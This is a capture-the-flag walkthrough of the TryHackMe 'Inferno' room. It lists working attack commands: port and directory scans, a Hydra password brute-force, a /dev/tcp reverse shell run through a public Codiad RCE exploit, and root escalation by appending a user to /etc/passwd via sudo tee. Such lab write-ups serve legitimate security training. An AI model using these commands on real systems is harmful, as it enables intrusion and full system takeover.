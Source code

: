 # Inferno

**Room Link:** [https://tryhackme.com/r/room/inferno](https://tryhackme.com/r/room/inferno)

### **Scans** <a href="#scans" id="scans"></a>

Initial scan

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Longer scan

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **TCP/80 - HTTP**

### Find Pages <a href="#find-pages" id="find-pages"></a>

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **Hydra**

Since we have no information at this point we just try admin as the username

**Kali**

```
hydra -l admin -P /usr/share/wordlists/SecLists/Passwords/darkweb2017-top10000.txt $VICTIM http-get "/inferno/" -V
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



After some digging we can see this is a codiad ide which has a RCE exploit

**Kali #1**

```
echo 'bash -c "bash -i >/dev/tcp/10.10.183.11/4445 0>&1 2>&1"' | nc -lnvp 4444
```

**Kali #2**

```
nc -nlvp 4445
```

**Kali #3**

```
searchsploit codiad
searchsploit -m multiple/webapps/49705.py
python3 49705.py http://admin:dante1@$VICTIM/inferno/ admin dante1 $KALI 4444 linux
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Autocomplete

**Victim**

```
python3 -c 'import pty; pty.spawn("/bin/sh")'
ctrl + Z
stty raw -echo;fg
```



## Lateral Movement

**Victim**

```
cd /home/dante/Downloads
ls -lah
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
cat .download.dat
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## **TCP/22 - SSH**

**Kali**

```
ssh dante@$VICTIM
Password: V1rg1l10h3lpm3
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Privilege Escalation**

**Exploit:** [https://gtfobins.github.io/gtfobins/tee/](https://gtfobins.github.io/gtfobins/tee/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
LFILE=/etc/passwd
echo 'new:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' | sudo tee -a "$LFILE"

su new
Password: 123
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>

